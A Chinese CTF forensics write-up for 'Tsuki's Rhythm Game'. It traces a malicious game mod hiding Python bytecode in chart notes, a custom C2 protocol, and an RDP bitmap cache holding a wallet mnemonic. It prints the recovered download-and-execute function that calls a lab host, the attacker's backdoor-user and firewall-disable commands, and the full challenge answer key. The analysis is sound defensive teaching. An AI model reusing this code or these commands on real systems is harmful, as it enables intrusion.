

# Tsuki's Rhythm Game

## 题目简述

Tsuki's Rhythm Game 是一道跨游戏包、网络流量和 RDP 缓存的事件响应题。选手拿到三个主要证据：

- `Game.zip`：PyInstaller 打包的节奏游戏、加密谱面和第三方 mod；
- `traffic.pcapng`：游戏下载安装、恶意载荷下载以及后续 C2 会话；
- `Evidence.zip`：初始时未知密码的加密证据包。

服务端不是直接提交 flag，而是依次校验 11 个调查结论。前 9 题覆盖游戏、隐藏载荷和 C2；答完第 9 题后，服务端给出 `Evidence.zip` 密码；最后两题要求从 RDP bitmap cache 中恢复 MetaMask 助记词并派生钱包地址。

题目中确实包含恶意 mod、下载器和自定义 C2，但最终目标是从多个既有数字证据中恢复并关联完整时间线，因此主分类为 forensics。恶意代码行为与 C2 协议分析是证据链中的关键阶段。

## 解题过程

### 1. 从 PyInstaller 游戏恢复谱面密钥

`TsukiRhythmGame.exe` 是 Python 3.11 的 PyInstaller 程序。用 `pyinstxtractor-ng` 解包，再用支持 Python 3.11 字节码的反编译器检查 `main.pyc`：

```sh
python3 pyinstxtractor-ng.py TsukiRhythmGame.exe
/home/kali/pycdc/build/pycdc \
    TsukiRhythmGame.exe_extracted/main.pyc
```

谱面加载逻辑中硬编码了 AES-CBC 参数：

```python
AES_KEY = b"TsukiRhythmKey!!"
AES_IV  = b"TsukiRhythmIV!!!"
```

因此第 2 题所需格式为：

```text
TsukiRhythmKey!!_TsukiRhythmIV!!!
```

解密五个 `.tsuki` 谱面后，`Eggdrasil.tsuki` 明显异常：其中有 3096 个 `type == 99` 的 note，而普通谱面不存在这种类型。

### 2. 从 note 的 lane 字段重组恶意字节码

可疑 mod `advanced_stats.tsukimod` 会遍历 `type == 99` 的 note，从每个 note 的 `lane` 字段取 2 位。拼接规模为：

$$
3096\times 2=6192\text{ bits}=774\text{ bytes}
$$

mod 把这 774 字节交给 `marshal.loads()`，将其还原为 Python code object，再作为比较函数执行。这说明谱面不是简单藏了一段文本，而是用游戏数据承载可执行 Python 字节码。

恢复出的函数逻辑可整理为：

```python
def custom_compare(self, other):
    try:
        import os
        import subprocess
        import urllib.request

        url = "http://192.168.117.1:8000/Updater.exe"
        target = os.path.join(
            os.environ.get("TEMP", "."),
            "Updater.exe",
        )
        urllib.request.urlretrieve(url, target)
        subprocess.Popen([target], shell=True)
    except Exception:
        pass

    return self.score < other.score
```

隐藏字节码的 MD5 为：

```text
aed1e4e8b9061e19506848ca579e46ac
```

感染路径至此已经明确：

```text
加载恶意谱面
  -> mod 提取 lane 的 2-bit 碎片
  -> marshal.loads 恢复 code object
  -> 执行 custom_compare
  -> 下载并运行 Updater.exe
```

### 3. 从 PCAP 导出 `Updater.exe`

使用 Wireshark 的“Export Objects -> HTTP”或 `tshark` 导出 HTTP 对象：

```sh
mkdir http-objects
tshark -r traffic.pcapng \
    --export-objects http,http-objects
```

可恢复从 `192.168.117.1:8000` 下载的 `Updater.exe`。关键 hash 为：

```text
TsukiRhythmGame.exe MD5:
1eeb9c6ed21903f22e1b28dbcbc5c01c

Updater.exe MD5:
61b04a62f28e5949c42c4803eb44b2b1

Updater.exe SHA-256:
c847ef7e270418f1f84cbb16c52a3fc61d9789796405e4767a0b535cacf2bc2f
```

静态分析 `Updater.exe` 可见它连接：

```text
192.168.117.1:4444
```

随后读取：

```text
C:\Windows\hh.exe
```

并以该文件构造后续 C2 消息的“码本”。

### 4. 恢复 C2 的自定义码本

C2 普通帧格式为：

```text
u32be frame_length | ASCII dot-separated integers
```

编码器针对每个待发送字节 $b$，查找 `hh.exe` 中第一次出现该字节的位置：

```text
b -> first_offset_of_b_in_hh.exe
```

每个十进制 offset 用点号连接。例如一个字节序列会变成：

```text
1337.4.18432.9.-155.2048...
```

若某个字节值没有出现在 `hh.exe` 中，则以负数直接编码，例如字节 `0x9b` 写成 `-155`。该版本的 `hh.exe` 覆盖 256 个字节值中的 248 个，剩余 8 个恰好会在流量中表现为负数。

仅知道系统路径还不够，因为不同 Windows 构建的 `hh.exe` 内容与首次出现位置可能不同。关键证据在 C2 的第一条客户端上行帧：它不是点号数字，而是 18432 字节二进制数据。用循环 key `13 37 c0 de` 异或：

```python
key = bytes.fromhex("1337c0de")
book = bytes(
    value ^ key[index % len(key)]
    for index, value in enumerate(first_frame)
)
```

即可得到 victim 使用的精确 `hh.exe`，其 MD5 为：

```text
2c8fe78d53c8ca27523a71dfd2938241
```

攻击者让客户端先上传码本，是为了保证 C2 服务端能处理不同系统版本；这个运维需求反而把完整解码材料留在了 PCAP 中。

### 5. 解码点号数字并执行 AES 解密

先建立从 offset 到原字节的反向表：

```python
def build_offset_table(book):
    first = {}
    for offset, value in enumerate(book):
        first.setdefault(value, offset)
    return {offset: value for value, offset in first.items()}


def decode_dot_message(data, offset_to_byte):
    out = bytearray()
    for token in data.decode("ascii").strip().split("."):
        if not token:
            continue
        value = int(token)
        if value < 0:
            out.append((-value) & 0xff)
        else:
            out.append(offset_to_byte[value])
    return bytes(out)
```

解码后的每个加密包结构为：

```text
AES key (16 bytes)
|| AES-CBC ciphertext
|| IV (16 bytes)
```

使用 AES-128-CBC 和 PKCS#7 padding 解密：

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

key = blob[:16]
ciphertext = blob[16:-16]
iv = blob[-16:]
plaintext = unpad(
    AES.new(key, AES.MODE_CBC, iv).decrypt(ciphertext),
    16,
)
```

客户端输出来自中文 Windows，无法按 UTF-8 解码的响应应尝试 GBK。

### 6. 重建攻击者命令时间线

完整会话有 8 组命令与响应：

| 顺序 | 攻击者命令 | 关键结果 |
| --- | --- | --- |
| 1 | `ipconfig /all` | 主机 `DESKTOP-GB98L3M`，地址 `192.168.117.135` |
| 2 | `whoami` | `desktop-gb98l3m\tsuki` |
| 3 | `dir` | 查看 victim 下载目录 |
| 4 | `tasklist` | 确认游戏、Updater 与 Wireshark 等进程 |
| 5 | 修改 `fDenyTSConnections` | 启用 RDP |
| 6 | `net user aurahack P@ssw0rd /add` | 创建后门用户 |
| 7 | `net localgroup Administrators aurahack /add` | 加入管理员组 |
| 8 | `netsh firewall set opmode disable` | 关闭防火墙 |

由此可重建攻击者意图：先侦察主机，再启用 RDP、创建管理员账号并关闭防火墙，随后通过 RDP 登录。

答对第 9 题后，服务端返回证据包密码：

```text
18ae3a54-1c1a-4f44-adca-9884acb80d9a
```

### 7. 识别并重建 RDP bitmap cache

解压 `Evidence.zip` 后得到 `Cache0000.bin`。文件头为：

```text
52 44 50 38 62 6d 70 00
RDP8bmp\x00
```

这是 Windows RDP bitmap cache。RDP 为减少重复传输，会把屏幕区域保存为小图块；取证时可重组这些缓存，恢复远程会话中曾显示过的界面。

使用 [ANSSI-FR 的 bmc-tools](https://github.com/ANSSI-FR/bmc-tools)：

```sh
python3 bmc-tools.py \
    -s Evidence_extracted \
    -d rdp-tiles \
    -b \
    -v
```

共可提取 2943 个图块并生成 band/collage。拼接图中保留了 MetaMask 显示助记词的界面：



可读出的十二词为：

```text
labor trophy emerge material divorce input
faint bench cricket merge sunset cream
```

第 10 个词受到界面遮挡，视觉上容易在 `emerge` 与 `merge` 之间犹豫。BIP39 十二词助记词包含校验位，分别验证两个候选：

```python
from mnemonic import Mnemonic

mnemonic = Mnemonic("english")

print(mnemonic.check(
    "labor trophy emerge material divorce input "
    "faint bench cricket emerge sunset cream"
))  # False

print(mnemonic.check(
    "labor trophy emerge material divorce input "
    "faint bench cricket merge sunset cream"
))  # True
```

因此第 7 个词为 `faint`，第 10 个词应为 `merge`。

### 8. 派生 Ethereum 地址

MetaMask 首个 Ethereum 账户使用标准路径：

```text
m/44'/60'/0'/0/0
```

可以用 `eth-account` 验证：

```python
from eth_account import Account

Account.enable_unaudited_hdwallet_features()

account = Account.from_mnemonic(
    "labor trophy emerge material divorce input "
    "faint bench cricket merge sunset cream",
    account_path="m/44'/60'/0'/0/0",
)

print(account.address)
```

结果为：

```text
0x27A2481a2D840C64c1f6a99842E1A63A1586237e
```

提交该地址即可通过第 11 题。仓库中的 flag 由环境变量动态注入，所以不同公开复现记录中的 flag 文本可能不同；11 个调查答案才是稳定的验证对象。

### 9. 最终答案汇总

下表中的答案已逐项与本地 `questions_data.json` 的 SHA-256 哈希核对：

| 题号 | 答案 |
| --- | --- |
| 1 | `1eeb9c6ed21903f22e1b28dbcbc5c01c` |
| 2 | `TsukiRhythmKey!!_TsukiRhythmIV!!!` |
| 3 | `aed1e4e8b9061e19506848ca579e46ac` |
| 4 | `4444` |
| 5 | `C:\Windows\hh.exe` |
| 6 | `2c8fe78d53c8ca27523a71dfd2938241` |
| 7 | `ipconfig /all` |
| 8 | `desktop-gb98l3m\tsuki` |
| 9 | `aurahack_P@ssw0rd` |
| 10 | `faint` |
| 11 | `0x27A2481a2D840C64c1f6a99842E1A63A1586237e` |

公开题解和小型复现 artifact 可参考：[hax1ng 的完整调查记录](https://github.com/hax1ng/r3ctf-2026-writeups/blob/master/forensics/Tsukis-Rhythm-Game.md) 与 [Abdelkad3r 的 C2 解码材料](https://github.com/Abdelkad3r/R3CTF-2026/tree/main/forensics/tsukis-rhythm-game)。正文已经写入谱面载荷、码本协议、AES 布局、命令时间线、RDP 缓存与钱包派生的必要信息，外链只用于保留可运行的小型样本和原始复现记录。

## 方法总结

本题的完整证据链为：

```text
PyInstaller 游戏
  -> 恢复硬编码谱面 AES key/IV
  -> 解密 Eggdrasil.tsuki
  -> 从 type 99 note 的 lane 字段提取 2-bit 碎片
  -> marshal 字节码下载 Updater.exe
  -> 从 PCAP 导出 C2 客户端
  -> 首帧 XOR 恢复 victim 的 hh.exe 码本
  -> 点号 offset 解码与 AES-128-CBC 解密
  -> 重建启用 RDP和创建后门账号的命令时间线
  -> 获得 Evidence.zip 密码
  -> 从 RDP8bmp cache 重组 MetaMask 界面
  -> BIP39 校验补全助记词
  -> 按 m/44'/60'/0'/0/0 派生地址
```

几个可迁移的识别信号是：

- PyInstaller 只是打包格式，不应被当作源码不可恢复的保护；
- 游戏谱面中异常 note 类型和受限取值字段可能承载位流；
- 自定义 C2 即使使用“本机文件作码本”，也要检查会话初始化阶段是否为兼容性上传了码本或 key material；
- `RDP8bmp` 与 `Cache0000.bin` 是典型 RDP bitmap cache 线索；
- 助记词截图有局部遮挡时，应使用 BIP39 校验位验证候选，而不是凭肉眼猜词。
